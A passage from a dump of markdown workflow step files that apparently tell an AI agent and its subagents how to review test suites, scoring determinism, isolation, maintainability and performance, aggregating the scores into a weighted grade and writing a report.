- **If `{outputFile}` does not exist** (first save), create it using the workflow template (if available) with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-02-discover-tests']
  lastStep: 'step-02-discover-tests'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-02-discover-tests'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-02-discover-tests'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-test-review/steps-c/step-03-quality-evaluation.md`
```markdown
---
name: 'step-03-quality-evaluation'
description: 'Orchestrate adaptive quality dimension checks (agent-team, subagent, or sequential)'
nextStepFile: './step-03f-aggregate-scores.md'
---

# Step 3: Orchestrate Adaptive Quality Evaluation

## STEP GOAL

Select execution mode deterministically, then evaluate quality dimensions using agent-team, subagent, or sequential execution while preserving output contracts:

- Determinism
- Isolation
- Maintainability
- Performance

Coverage is intentionally excluded from this workflow and handled by `trace`.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Resolve execution mode from config (`tea_execution_mode`, `tea_capability_probe`)
- ✅ Apply fallback rules deterministically when requested mode is unsupported
- ✅ Wait for required worker steps to complete
- ❌ Do NOT skip capability checks when probing is enabled
- ❌ Do NOT proceed until required worker steps finish

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Wait for subagent outputs
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: test files from Step 2, knowledge fragments
- Focus: orchestration only (mode selection + worker dispatch)
- Limits: do not evaluate quality directly (delegate to worker steps)

---

## MANDATORY SEQUENCE

### 1. Prepare Execution Context

**Generate unique timestamp:**

```javascript
const timestamp = new Date().toISOString().replace(/[:.]/g, '-');
```

**Prepare context for all subagents:**

```javascript
const parseBooleanFlag = (value, defaultValue = true) => {
  if (typeof value === 'string') {
    const normalized = value.trim().toLowerCase();
    if (['false', '0', 'off', 'no'].includes(normalized)) return false;
    if (['true', '1', 'on', 'yes'].includes(normalized)) return true;
  }
  if (value === undefined || value === null) return defaultValue;
  return Boolean(value);
};

const subagentContext = {
  test_files: /* from Step 2 */,
  knowledge_fragments_loaded: ['test-quality'],
  config: {
    execution_mode: config.tea_execution_mode || 'auto',  // "auto" | "subagent" | "agent-team" | "sequential"
    capability_probe: parseBooleanFlag(config.tea_capability_probe, true),  // supports booleans and "false"/"true" strings
  },
  timestamp: timestamp
};
```

---

### 2. Resolve Execution Mode with Capability Probe

```javascript
const normalizeUserExecutionMode = (mode) => {
  if (typeof mode !== 'string') return null;
  const normalized = mode.trim().toLowerCase().replace(/[-_]/g, ' ').replace(/\s+/g, ' ');

  if (normalized === 'auto') return 'auto';
  if (normalized === 'sequential') return 'sequential';
  if (normalized === 'subagent' || normalized === 'sub agent' || normalized === 'subagents' || normalized === 'sub agents') {
    return 'subagent';
  }
  if (normalized === 'agent team' || normalized === 'agent teams' || normalized === 'agentteam') {
    return 'agent-team';
  }

  return null;
};

const normalizeConfigExecutionMode = (mode) => {
  if (mode === 'subagent') return 'subagent';
  if (mode === 'auto' || mode === 'sequential' || mode === 'subagent' || mode === 'agent-team') {
    return mode;
  }
  return null;
};

// Explicit user instruction in the active run takes priority over config.
const explicitModeFromUser = normalizeUserExecutionMode(runtime.getExplicitExecutionModeHint?.() || null);

const requestedMode = explicitModeFromUser || normalizeConfigExecutionMode(subagentContext.config.execution_mode) || 'auto';
const probeEnabled = subagentContext.config.capability_probe;

const supports = {
  subagent: false,
  agentTeam: false,
};

if (probeEnabled) {
  supports.subagent = runtime.canLaunchSubagents?.() === true;
  supports.agentTeam = runtime.canLaunchAgentTeams?.() === true;
}

let resolvedMode = requestedMode;

if (requestedMode === 'auto') {
  if (supports.agentTeam) resolvedMode = 'agent-team';
  else if (supports.subagent) resolvedMode = 'subagent';
  else resolvedMode = 'sequential';
} else if (probeEnabled && requestedMode === 'agent-team' && !supports.agentTeam) {
  resolvedMode = supports.subagent ? 'subagent' : 'sequential';
} else if (probeEnabled && requestedMode === 'subagent' && !supports.subagent) {
  resolvedMode = 'sequential';
}

subagentContext.execution = {
  requestedMode,
  resolvedMode,
  probeEnabled,
  supports,
};
```

Resolution precedence:

1. Explicit user request in this run (`agent team` => `agent-team`; `subagent` => `subagent`; `sequential`; `auto`)
2. `tea_execution_mode` from config
3. Runtime capability fallback (when probing enabled)

If probing is disabled, honor the requested mode strictly. If that mode cannot be executed at runtime, fail with explicit error instead of silent fallback.

---

### 3. Dispatch 4 Quality Workers

**Subagent A: Determinism**

- File: `./step-03a-subagent-determinism.md`
- Output: `/tmp/tea-test-review-determinism-${timestamp}.json`
- Execution:
  - `agent-team` or `subagent`: launch non-blocking
  - `sequential`: run blocking and wait
- Status: Running... ⟳

**Subagent B: Isolation**

- File: `./step-03b-subagent-isolation.md`
- Output: `/tmp/tea-test-review-isolation-${timestamp}.json`
- Status: Running... ⟳

**Subagent C: Maintainability**

- File: `./step-03c-subagent-maintainability.md`
- Output: `/tmp/tea-test-review-maintainability-${timestamp}.json`
- Status: Running... ⟳

**Subagent D: Performance**

- File: `./step-03e-subagent-performance.md`
- Output: `/tmp/tea-test-review-performance-${timestamp}.json`
- Status: Running... ⟳

In `agent-team` and `subagent` modes, runtime decides worker scheduling and concurrency.

---

### 4. Wait for Expected Worker Completion

**If `resolvedMode` is `agent-team` or `subagent`:**

```
⏳ Waiting for 4 quality subagents to complete...
✅ All 4 quality subagents completed successfully!
```

**If `resolvedMode` is `sequential`:**

```
✅ Sequential mode: each worker already completed during dispatch.
```

---

### 5. Verify All Outputs Exist

```javascript
const outputs = ['determinism', 'isolation', 'maintainability', 'performance'].map(
  (dim) => `/tmp/tea-test-review-${dim}-${timestamp}.json`,
);

outputs.forEach((output) => {
  if (!fs.existsSync(output)) {
    throw new Error(`Subagent output missing: ${output}`);
  }
});
```

---

### 6. Execution Report

```
🚀 Performance Report:
- Execution Mode: {resolvedMode}
- Total Elapsed: ~mode-dependent
- Parallel Gain: ~60-70% faster when mode is subagent/agent-team
```

---

### 7. Proceed to Aggregation

Pass the same `timestamp` value to Step 3F (do not regenerate it). Step 3F must read the exact temp files written in this step.

Load next step: `{nextStepFile}`

The aggregation step (3F) will:

- Read all 4 subagent outputs
- Calculate weighted overall score (0-100)
- Aggregate violations by severity
- Generate review report with top suggestions

---

## EXIT CONDITION

Proceed to Step 3F when:

- ✅ All 4 subagents completed successfully
- ✅ All output files exist and are valid JSON
- ✅ Execution metrics displayed

**Do NOT proceed if any subagent failed.**

---

## 🚨 SYSTEM SUCCESS METRICS

### ✅ SUCCESS:

- All 4 subagents launched and completed
- All required worker steps completed
- Output files generated and valid
- Fallback behavior respected configuration and capability probe rules

### ❌ FAILURE:

- One or more subagents failed
- Output files missing or invalid
- Unsupported requested mode with probing disabled

**Master Rule:** Deterministic mode selection + stable output contract. Use the best supported mode, then aggregate normally.
```

## File: `src/workflows/testarch/bmad-testarch-test-review/steps-c/step-03a-subagent-determinism.md`
```markdown
---
name: 'step-03a-subagent-determinism'
description: 'Subagent: Check test determinism (no random/time dependencies)'
subagent: true
outputFile: '/tmp/tea-test-review-determinism-{{timestamp}}.json'
---

# Subagent 3A: Determinism Quality Check

## SUBAGENT CONTEXT

This is an **isolated subagent** running in parallel with other quality dimension checks.

**What you have from parent workflow:**

- Test files discovered in Step 2
- Knowledge fragment: test-quality (determinism criteria)
- Config: test framework

**Your task:** Analyze test files for DETERMINISM violations only.

---

## MANDATORY EXECUTION RULES

- 📖 Read this entire subagent file before acting
- ✅ Check DETERMINISM only (not other quality dimensions)
- ✅ Output structured JSON to temp file
- ❌ Do NOT check isolation, maintainability, coverage, or performance (other subagents)
- ❌ Do NOT modify test files (read-only analysis)
- ❌ Do NOT run tests (just analyze code)

---

## SUBAGENT TASK

### 1. Identify Determinism Violations

**Scan test files for non-deterministic patterns:**

**HIGH SEVERITY Violations**:

- `Math.random()` - Random number generation
- `Date.now()` or `new Date()` without mocking
- `setTimeout` / `setInterval` without proper waits
- External API calls without mocking
- File system operations on random paths
- Database queries with non-deterministic ordering

**MEDIUM SEVERITY Violations**:

- `page.waitForTimeout(N)` - Hard waits instead of conditions
- Flaky selectors (CSS classes that may change)
- Race conditions (missing proper synchronization)
- Test order dependencies (test A must run before test B)

**LOW SEVERITY Violations**:

- Missing test isolation (shared state between tests)
- Console timestamps without fixed timezone

### 2. Analyze Each Test File

For each test file from Step 2:

```javascript
const violations = [];

// Check for Math.random()
if (testFileContent.includes('Math.random()')) {
  violations.push({
    file: testFile,
    line: findLineNumber('Math.random()'),
    severity: 'HIGH',
    category: 'random-generation',
    description: 'Test uses Math.random() - non-deterministic',
    suggestion: 'Use faker.seed(12345) for deterministic random data',
  });
}

// Check for Date.now()
if (testFileContent.includes('Date.now()') || testFileContent.includes('new Date()')) {
  violations.push({
    file: testFile,
    line: findLineNumber('Date.now()'),
    severity: 'HIGH',
    category: 'time-dependency',
    description: 'Test uses Date.now() or new Date() without mocking',
    suggestion: 'Mock system time with test.useFakeTimers() or use fixed timestamps',
  });
}

// Check for hard waits
if (testFileContent.includes('waitForTimeout')) {
  violations.push({
    file: testFile,
    line: findLineNumber('waitForTimeout'),
    severity: 'MEDIUM',
    category: 'hard-wait',
    description: 'Test uses waitForTimeout - creates flakiness',
    suggestion: 'Replace with expect(locator).toBeVisible() or waitForResponse',
  });
}

// ... check other patterns
```

### 3. Calculate Determinism Score

**Scoring Logic**:

```javascript
const totalChecks = testFiles.length * checksPerFile;
const failedChecks = violations.length;
const passedChecks = totalChecks - failedChecks;

// Weight violations by severity
const severityWeights = { HIGH: 10, MEDIUM: 5, LOW: 2 };
const totalPenalty = violations.reduce((sum, v) => sum + severityWeights[v.severity], 0);

// Score: 100 - (penalty points)
const score = Math.max(0, 100 - totalPenalty);
```

---

## OUTPUT FORMAT

Write JSON to temp file: `/tmp/tea-test-review-determinism-{{timestamp}}.json`

```json
{
  "dimension": "determinism",
  "score": 85,
  "max_score": 100,
  "grade": "B",
  "violations": [
    {
      "file": "tests/api/user.spec.ts",
      "line": 42,
      "severity": "HIGH",
      "category": "random-generation",
      "description": "Test uses Math.random() - non-deterministic",
      "suggestion": "Use faker.seed(12345) for deterministic random data",
      "code_snippet": "const userId = Math.random() * 1000;"
    },
    {
      "file": "tests/e2e/checkout.spec.ts",
      "line": 78,
      "severity": "MEDIUM",
      "category": "hard-wait",
      "description": "Test uses waitForTimeout - creates flakiness",
      "suggestion": "Replace with expect(locator).toBeVisible()",
      "code_snippet": "await page.waitForTimeout(5000);"
    }
  ],
  "passed_checks": 12,
  "failed_checks": 3,
  "total_checks": 15,
  "violation_summary": {
    "HIGH": 1,
    "MEDIUM": 1,
    "LOW": 1
  },
  "recommendations": [
    "Use faker with fixed seed for all random data",
    "Replace all waitForTimeout with conditional waits",
    "Mock Date.now() in tests that use current time"
  ],
  "summary": "Tests are mostly deterministic with 3 violations (1 HIGH, 1 MEDIUM, 1 LOW)"
}
```

**On Error:**

```json
{
  "dimension": "determinism",
  "success": false,
  "error": "Error message describing what went wrong"
}
```

---

## EXIT CONDITION

Subagent completes when:

- ✅ All test files analyzed for determinism violations
- ✅ Score calculated (0-100)
- ✅ Violations categorized by severity
- ✅ Recommendations generated
- ✅ JSON output written to temp file

**Subagent terminates here.** Parent workflow will read output and aggregate with other quality dimensions.

---

## 🚨 SUBAGENT SUCCESS METRICS

### ✅ SUCCESS:

- All test files scanned for determinism violations
- Score calculated with proper severity weighting
- JSON output valid and complete
- Only determinism checked (not other dimensions)

### ❌ FAILURE:

- Checked quality dimensions other than determinism
- Invalid or missing JSON output
- Score calculation incorrect
- Modified test files (should be read-only)
```

## File: `src/workflows/testarch/bmad-testarch-test-review/steps-c/step-03b-subagent-isolation.md`
```markdown
---
name: 'step-03b-subagent-isolation'
description: 'Subagent: Check test isolation (no shared state/dependencies)'
subagent: true
outputFile: '/tmp/tea-test-review-isolation-{{timestamp}}.json'
---

# Subagent 3B: Isolation Quality Check

## SUBAGENT CONTEXT

This is an **isolated subagent** running in parallel with other quality dimension checks.

**Your task:** Analyze test files for ISOLATION violations only.

---

## MANDATORY EXECUTION RULES

- ✅ Check ISOLATION only (not other quality dimensions)
- ✅ Output structured JSON to temp file
- ❌ Do NOT check determinism, maintainability, coverage, or performance
- ❌ Do NOT modify test files (read-only analysis)

---

## SUBAGENT TASK

### 1. Identify Isolation Violations

**Scan test files for isolation issues:**

**HIGH SEVERITY Violations**:

- Global state mutations (global variables modified)
- Test order dependencies (test B depends on test A running first)
- Shared database records without cleanup
- beforeAll/afterAll with side effects leaking to other tests

**MEDIUM SEVERITY Violations**:

- Missing test cleanup (created data not deleted)
- Shared fixtures that mutate state
- Tests that assume specific execution order
- Environment variables modified without restoration

**LOW SEVERITY Violations**:

- Tests sharing test data (but not mutating)
- Missing test.describe grouping
- Tests that could be more isolated

### 2. Calculate Isolation Score

```javascript
const totalChecks = testFiles.length * checksPerFile;
const failedChecks = violations.length;
const severityWeights = { HIGH: 10, MEDIUM: 5, LOW: 2 };
const totalPenalty = violations.reduce((sum, v) => sum + severityWeights[v.severity], 0);
const score = Math.max(0, 100 - totalPenalty);
```

---

## OUTPUT FORMAT

```json
{
  "dimension": "isolation",
  "score": 90,
  "max_score": 100,
  "grade": "A-",
  "violations": [
    {
      "file": "tests/api/integration.spec.ts",
      "line": 15,
      "severity": "HIGH",
      "category": "test-order-dependency",
      "description": "Test depends on previous test creating user record",
      "suggestion": "Each test should create its own test data in beforeEach",
      "code_snippet": "test('should update user', async () => { /* assumes user exists */ });"
    }
  ],
  "passed_checks": 14,
  "failed_checks": 1,
  "total_checks": 15,
  "violation_summary": {
    "HIGH": 1,
    "MEDIUM": 0,
    "LOW": 0
  },
  "recommendations": [
    "Add beforeEach hooks to create test data",
    "Add afterEach hooks to cleanup created records",
    "Use test.describe.configure({ mode: 'parallel' }) to enforce isolation"
  ],
  "summary": "Tests are well isolated with 1 HIGH severity violation"
}
```

---

## EXIT CONDITION

Subagent completes when:

- ✅ All test files analyzed for isolation violations
- ✅ Score calculated
- ✅ JSON output written to temp file

**Subagent terminates here.**

---

## 🚨 SUBAGENT SUCCESS METRICS

### ✅ SUCCESS:

- Only isolation checked (not other dimensions)
- JSON output valid and complete

### ❌ FAILURE:

- Checked quality dimensions other than isolation
- Invalid or missing JSON output
```

## File: `src/workflows/testarch/bmad-testarch-test-review/steps-c/step-03c-subagent-maintainability.md`
```markdown
---
name: 'step-03c-subagent-maintainability'
description: 'Subagent: Check test maintainability (readability, structure, DRY)'
subagent: true
outputFile: '/tmp/tea-test-review-maintainability-{{timestamp}}.json'
---

# Subagent 3C: Maintainability Quality Check

## SUBAGENT CONTEXT

This is an **isolated subagent** running in parallel with other quality dimension checks.

**Your task:** Analyze test files for MAINTAINABILITY violations only.

---

## MANDATORY EXECUTION RULES

- ✅ Check MAINTAINABILITY only (not other quality dimensions)
- ✅ Output structured JSON to temp file
- ❌ Do NOT check determinism, isolation, coverage, or performance

---

## SUBAGENT TASK

### 1. Identify Maintainability Violations

**HIGH SEVERITY Violations**:

- Tests >100 lines (too complex)
- No test.describe grouping
- Duplicate test logic (copy-paste)
- Unclear test names (no Given/When/Then structure)
- Magic numbers/strings without constants

**MEDIUM SEVERITY Violations**:

- Tests missing comments for complex logic
- Inconsistent naming conventions
- Excessive nesting (>3 levels)
- Large setup/teardown blocks

**LOW SEVERITY Violations**:

- Minor code style issues
- Could benefit from helper functions
- Inconsistent assertion styles

### 2. Calculate Maintainability Score

```javascript
const severityWeights = { HIGH: 10, MEDIUM: 5, LOW: 2 };
const totalPenalty = violations.reduce((sum, v) => sum + severityWeights[v.severity], 0);
const score = Math.max(0, 100 - totalPenalty);
```

---

## OUTPUT FORMAT

```json
{
  "dimension": "maintainability",
  "score": 75,
  "max_score": 100,
  "grade": "C",
  "violations": [
    {
      "file": "tests/e2e/complex-flow.spec.ts",
      "line": 1,
      "severity": "HIGH",
      "category": "test-too-long",
      "description": "Test file is 250 lines - too complex to maintain",
      "suggestion": "Split into multiple smaller test files by feature area",
      "code_snippet": "test.describe('Complex flow', () => { /* 250 lines */ });"
    }
  ],
  "passed_checks": 10,
  "failed_checks": 5,
  "violation_summary": {
    "HIGH": 2,
    "MEDIUM": 2,
    "LOW": 1
  },
  "recommendations": [
    "Split large test files into smaller, focused files (<100 lines each)",
    "Add test.describe grouping for related tests",
    "Extract duplicate logic into helper functions"
  ],
  "summary": "Tests have maintainability issues - 5 violations (2 HIGH)"
}
```

---

## EXIT CONDITION

Subagent completes when JSON output written to temp file.

**Subagent terminates here.**
```

## File: `src/workflows/testarch/bmad-testarch-test-review/steps-c/step-03e-subagent-performance.md`
```markdown
---
name: 'step-03e-subagent-performance'
description: 'Subagent: Check test performance (speed, efficiency, parallelization)'
subagent: true
outputFile: '/tmp/tea-test-review-performance-{{timestamp}}.json'
---

# Subagent 3E: Performance Quality Check

## SUBAGENT CONTEXT

This is an **isolated subagent** running in parallel with other quality dimension checks.

**Your task:** Analyze test files for PERFORMANCE violations only.

---

## MANDATORY EXECUTION RULES

- ✅ Check PERFORMANCE only (not other quality dimensions)
- ✅ Output structured JSON to temp file
- ❌ Do NOT check determinism, isolation, maintainability, or coverage

---

## SUBAGENT TASK

### 1. Identify Performance Violations

**HIGH SEVERITY Violations**:

- Tests not parallelizable (using test.describe.serial unnecessarily)
- Slow setup/teardown (creating fresh DB for every test)
- Excessive navigation (reloading pages unnecessarily)
- No fixture reuse (repeating expensive operations)

**MEDIUM SEVERITY Violations**:

- Hard waits >2 seconds (waitForTimeout(5000))
- Inefficient selectors (page.$$ instead of locators)
- Large data sets in tests without pagination
- Missing performance optimizations

**LOW SEVERITY Violations**:

- Could use parallelization (test.describe.configure({ mode: 'parallel' }))
- Minor inefficiencies
- Excessive logging

### 2. Calculate Performance Score

```javascript
const severityWeights = { HIGH: 10, MEDIUM: 5, LOW: 2 };
const totalPenalty = violations.reduce((sum, v) => sum + severityWeights[v.severity], 0);
const score = Math.max(0, 100 - totalPenalty);
```

---

## OUTPUT FORMAT

```json
{
  "dimension": "performance",
  "score": 80,
  "max_score": 100,
  "grade": "B",
  "violations": [
    {
      "file": "tests/e2e/search.spec.ts",
      "line": 10,
      "severity": "HIGH",
      "category": "not-parallelizable",
      "description": "Tests use test.describe.serial unnecessarily - reduces parallel execution",
      "suggestion": "Remove .serial unless tests truly share state",
      "code_snippet": "test.describe.serial('Search tests', () => { ... });"
    },
    {
      "file": "tests/api/bulk-operations.spec.ts",
      "line": 35,
      "severity": "MEDIUM",
      "category": "slow-setup",
      "description": "Test creates 1000 records in setup - very slow",
      "suggestion": "Use smaller data sets or fixture factories",
      "code_snippet": "beforeEach(async () => { for (let i=0; i<1000; i++) { ... } });"
    }
  ],
  "passed_checks": 13,
  "failed_checks": 2,
  "violation_summary": {
    "HIGH": 1,
    "MEDIUM": 1,
    "LOW": 0
  },
  "performance_metrics": {
    "parallelizable_tests": 80,
    "serial_tests": 20,
    "avg_test_duration_estimate": "~2 seconds",
    "slow_tests": ["bulk-operations.spec.ts (>30s)"]
  },
  "recommendations": [
    "Enable parallel mode where possible",
    "Reduce setup data to minimum needed",
    "Use fixtures to share expensive setup across tests",
    "Remove unnecessary .serial constraints"
  ],
  "summary": "Good performance with 2 violations - 80% tests can run in parallel"
}
```

---

## EXIT CONDITION

Subagent completes when JSON output written to temp file.

**Subagent terminates here.**
```

## File: `src/workflows/testarch/bmad-testarch-test-review/steps-c/step-03f-aggregate-scores.md`
```markdown
---
name: 'step-03f-aggregate-scores'
description: 'Aggregate quality dimension scores into overall 0-100 score'
nextStepFile: './step-04-generate-report.md'
outputFile: '{test_artifacts}/test-review.md'
---

# Step 3F: Aggregate Quality Scores

## STEP GOAL

Read outputs from 4 quality subagents, calculate weighted overall score (0-100), and aggregate violations for report generation.

---

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`
- ✅ Read all 4 subagent outputs
- ✅ Calculate weighted overall score
- ✅ Aggregate violations by severity
- ❌ Do NOT re-evaluate quality (use subagent outputs)

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

---

## MANDATORY SEQUENCE

### 1. Read All Subagent Outputs

```javascript
// Use the SAME timestamp generated in Step 3 (do not regenerate).
const timestamp = subagentContext?.timestamp;
if (!timestamp) {
  throw new Error('Missing timestamp from Step 3 context. Pass Step 3 timestamp into Step 3F.');
}
const dimensions = ['determinism', 'isolation', 'maintainability', 'performance'];
const results = {};

dimensions.forEach((dim) => {
  const outputPath = `/tmp/tea-test-review-${dim}-${timestamp}.json`;
  results[dim] = JSON.parse(fs.readFileSync(outputPath, 'utf8'));
});
```

**Verify all succeeded:**

```javascript
const allSucceeded = dimensions.every((dim) => results[dim].score !== undefined);
if (!allSucceeded) {
  throw new Error('One or more quality subagents failed!');
}
```

---

### 2. Calculate Weighted Overall Score

**Dimension Weights** (based on TEA quality priorities):

```javascript
const weights = {
  determinism: 0.3, // 30% - Reliability and flake prevention
  isolation: 0.3, // 30% - Parallel safety and independence
  maintainability: 0.25, // 25% - Readability and long-term health
  performance: 0.15, // 15% - Speed and execution efficiency
};
```

**Calculate overall score:**

```javascript
const overallScore = dimensions.reduce((sum, dim) => {
  return sum + results[dim].score * weights[dim];
}, 0);

const roundedScore = Math.round(overallScore);
```

**Determine grade:**

```javascript
const getGrade = (score) => {
  if (score >= 90) return 'A';
  if (score >= 80) return 'B';
  if (score >= 70) return 'C';
  if (score >= 60) return 'D';
  return 'F';
};

const overallGrade = getGrade(roundedScore);
```

---

### 3. Aggregate Violations by Severity

**Collect all violations from all dimensions:**

```javascript
const allViolations = dimensions.flatMap((dim) =>
  results[dim].violations.map((v) => ({
    ...v,
    dimension: dim,
  })),
);

// Group by severity
const highSeverity = allViolations.filter((v) => v.severity === 'HIGH');
const mediumSeverity = allViolations.filter((v) => v.severity === 'MEDIUM');
const lowSeverity = allViolations.filter((v) => v.severity === 'LOW');

const violationSummary = {
  total: allViolations.length,
  HIGH: highSeverity.length,
  MEDIUM: mediumSeverity.length,
  LOW: lowSeverity.length,
};
```

---

### 4. Prioritize Recommendations

**Extract recommendations from all dimensions:**

```javascript
const allRecommendations = dimensions.flatMap((dim) =>
  results[dim].recommendations.map((rec) => ({
    dimension: dim,
    recommendation: rec,
    impact: results[dim].score < 70 ? 'HIGH' : 'MEDIUM',
  })),
);

// Sort by impact (HIGH first)
const prioritizedRecommendations = allRecommendations.sort((a, b) => (a.impact === 'HIGH' ? -1 : 1)).slice(0, 10); // Top 10 recommendations
```

---

### 5. Create Review Summary Object

**Aggregate all results:**

```javascript
const reviewSummary = {
  overall_score: roundedScore,
  overall_grade: overallGrade,
  quality_assessment: getQualityAssessment(roundedScore),

  dimension_scores: {
    determinism: results.determinism.score,
    isolation: results.isolation.score,
    maintainability: results.maintainability.score,
    performance: results.performance.score,
  },

  dimension_grades: {
    determinism: results.determinism.grade,
    isolation: results.isolation.grade,
    maintainability: results.maintainability.grade,
    performance: results.performance.grade,
  },

  violations_summary: violationSummary,

  all_violations: allViolations,

  high_severity_violations: highSeverity,

  top_10_recommendations: prioritizedRecommendations,

  subagent_execution: 'PARALLEL (4 quality dimensions)',
  performance_gain: '~60% faster than sequential',
};

// Save for Step 4 (report generation)
fs.writeFileSync(`/tmp/tea-test-review-summary-${timestamp}.json`, JSON.stringify(reviewSummary, null, 2), 'utf8');
```

---

### 6. Display Summary to User

```
✅ Quality Evaluation Complete (Parallel Execution)

📊 Overall Quality Score: {roundedScore}/100 (Grade: {overallGrade})

📈 Dimension Scores:
- Determinism:      {determinism_score}/100 ({determinism_grade})
- Isolation:        {isolation_score}/100 ({isolation_grade})
- Maintainability:  {maintainability_score}/100 ({maintainability_grade})
- Performance:      {performance_score}/100 ({performance_grade})

ℹ️ Coverage is excluded from `test-review` scoring. Use `trace` for coverage analysis and gates.

⚠️ Violations Found:
- HIGH:   {high_count} violations
- MEDIUM: {medium_count} violations
- LOW:    {low_count} violations
- TOTAL:  {total_count} violations

🚀 Performance: Parallel execution ~60% faster than sequential

✅ Ready for report generation (Step 4)
```

---

---

### 7. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it using the workflow template (if available) with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-03f-aggregate-scores']
  lastStep: 'step-03f-aggregate-scores'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-03f-aggregate-scores'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-03f-aggregate-scores'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

---

## EXIT CONDITION

Proceed to Step 4 when:

- ✅ All subagent outputs read successfully
- ✅ Overall score calculated
- ✅ Violations aggregated
- ✅ Recommendations prioritized
- ✅ Summary saved to temp file
- ✅ Output displayed to user
- ✅ Progress saved to output document

Load next step: `{nextStepFile}`

---

## 🚨 SYSTEM SUCCESS METRICS

### ✅ SUCCESS:

- All 4 subagent outputs read and parsed
- Overall score calculated with proper weights
- Violations aggregated correctly
- Summary complete and saved

### ❌ FAILURE:

- Failed to read one or more subagent outputs
- Score calculation incorrect
- Summary missing or incomplete

**Master Rule:** Aggregate determinism, isolation, maintainability, and performance only.
```

## File: `src/workflows/testarch/bmad-testarch-test-review/steps-c/step-04-generate-report.md`
```markdown
---
name: 'step-04-generate-report'
description: 'Create test-review report and validate'
outputFile: '{test_artifacts}/test-review.md'
---

# Step 4: Generate Report & Validate

## STEP GOAL

Produce the test-review report and validate against checklist.

## MANDATORY EXECUTION RULES

- 📖 Read the entire step file before acting
- ✅ Speak in `{communication_language}`

---

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly
- 💾 Record outputs before proceeding
- 📖 Load the next step only when instructed

## CONTEXT BOUNDARIES:

- Available context: config, loaded artifacts, and knowledge fragments
- Focus: this step's goal only
- Limits: do not execute future steps
- Dependencies: prior steps' outputs (if any)

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly. Do not skip, reorder, or improvise.

## 1. Report Generation

Use `test-review-template.md` to produce `{outputFile}` including:

- Score summary
- Critical findings with fixes
- Warnings and recommendations
- Context references (story/test-design if available)
- Coverage boundary note: `test-review` does not score coverage. Direct coverage findings to `trace`.

---

## 2. Polish Output

Before finalizing, review the complete output document for quality:

1. **Remove duplication**: Progressive-append workflow may have created repeated sections — consolidate
2. **Verify consistency**: Ensure terminology, risk scores, and references are consistent throughout
3. **Check completeness**: All template sections should be populated or explicitly marked N/A
4. **Format cleanup**: Ensure markdown formatting is clean (tables aligned, headers consistent, no orphaned references)

---

## 3. Validation

Validate against `checklist.md` and fix any gaps.

- [ ] CLI sessions cleaned up (no orphaned browsers)
- [ ] Temp artifacts stored in `{test_artifacts}/` not random locations

---

## 4. Save Progress

**Save this step's accumulated work to `{outputFile}`.**

- **If `{outputFile}` does not exist** (first save), create it using the workflow template (if available) with YAML frontmatter:

  ```yaml
  ---
  stepsCompleted: ['step-04-generate-report']
  lastStep: 'step-04-generate-report'
  lastSaved: '{date}'
  ---
  ```

  Then write this step's output below the frontmatter.

- **If `{outputFile}` already exists**, update:
  - Add `'step-04-generate-report'` to `stepsCompleted` array (only if not already present)
  - Set `lastStep: 'step-04-generate-report'`
  - Set `lastSaved: '{date}'`
  - Append this step's output to the appropriate section of the document.

---

## 5. Completion Summary

Report:

- Scope reviewed
- Overall score
- Critical blockers
- Next recommended workflow (e.g., `automate` or `trace`)

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Step completed in full with required outputs

### ❌ SYSTEM FAILURE:

- Skipped sequence steps or missing outputs
  **Master Rule:** Skipping steps is FORBIDDEN.
```

## File: `src/workflows/testarch/bmad-testarch-test-review/steps-e/step-01-assess.md`
```markdown
---
name: 'step-01-assess'
description: 'Load an existing output for editing'
nextStepFile: './step-02-apply-edit.md'
---

# Step 1: Assess Edit Target

## STEP GOAL:

Identify which output should be edited and load it.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 📖 Read the complete step file before taking any action
- ✅ Speak in `{communication_language}`

### Role Reinforcement:

- ✅ You are the Master Test Architect

### Step-Specific Rules:

- 🎯 Ask the user which output file to edit
- 🚫 Do not edit until target is confirmed

## EXECUTION PROTOCOLS:

- 🎯 Follow the MANDATORY SEQUENCE exactly

## CONTEXT BOUNDARIES:

- Available context: existing outputs
- Focus: select edit target
- Limits: no edits yet

## MANDATORY SEQUENCE

**CRITICAL:** Follow this sequence exactly.

### 1. Identify Target

Ask the user to provide the output file path or select from known outputs.

### 2. Load Target

Read the provided output file in full.

### 3. Confirm

Confirm the target and proceed to edit.

Load next step: `{nextStepFile}`

## 🚨 SYSTEM SUCCESS/FAILURE METRICS:

### ✅ SUCCESS:

- Target identified and loaded

### ❌ SYSTEM FAILURE:

- Proceeding without a confirmed target
```

## File: `src/workflows/testarch/bmad-testarch-test-review/steps-e/step-02-apply-edit.md`
```markdown
---
name: 'step-02-apply-edit'
description: 'Apply edits to the selected output'
---

# Step 2: Apply Edits

## STEP GOAL:

Apply the requested edits to the selected output and confirm changes.
